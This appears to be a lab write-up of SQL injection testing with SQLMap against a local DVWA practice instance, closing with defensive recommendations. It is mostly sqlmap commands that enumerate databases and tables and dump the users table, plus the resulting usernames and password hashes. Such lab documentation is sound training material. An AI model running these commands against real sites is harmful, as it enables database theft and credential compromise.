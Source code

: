 # SQLMap Penetration Testing Documentation

## Overview

This document contains details about the SQL injection testing performed on the target application, steps taken, commands executed, and results obtained.

## Prerequisites

- **Target**: http://192.168.1.7/dvwa
- **Tools Used**: SQLMap
- **Setup**:
  - DVWA running on a local environment.
  - Security level set to `low`.

## Step 1: Identify Vulnerabilities

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" --dbs
```

### Results:

- Identified injectable parameter: `id`.
- Databases discovered:
  - `dvwa`
  - `information_schema`

---

## Step 2: Select Target Database

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa --tables
```

### Results:

- Tables in `dvwa` database:
  - `guestbook`
  - `users`

---

## Step 3: Dump Table Data

### Dumping `users` Table

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users --columns
```

#### Results:

- Columns in `users` table:
  - `user_id`
  - `first_name`
  - `last_name`
  - `user`
  - `password`

---

### Dumping User Credentials

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users --dump
```

#### Results:

- Extracted Data:
  | User ID | Username | Password Hash | First Name | Last Name |
  |---|---|---|---|---|
  | 1 | admin | 21232f297a57a5a743894a0e4a801fc3 | admin | admin |
  | 2 | guest | e99a18c428cb38d5f260853678922e03 | Brown | Gordon |
  | 3 | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b | Me | Hack |
  | 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso | Pablo |
  | 5 | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith | Bob |
  | 6 | user | ee11cbb19052e40b07aac0ca060c23ee | user | user |

---

## Step 4: Test Other Parameters

#### Testing All Parameters:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" --crawl=3 --batch
```

### Results:

- Additional vulnerabilities found in `guestbook` table:
  - Columns dumped successfully.

---

## Recommendations

1. Implement input validation to prevent SQL injection.
2. Use parameterized queries or prepared statements.
3. Restrict database user privileges.
4. Regularly update and patch web applications and database management systems.
5. Utilize a Web Application Firewall (WAF) to detect and block SQL injection attempts.
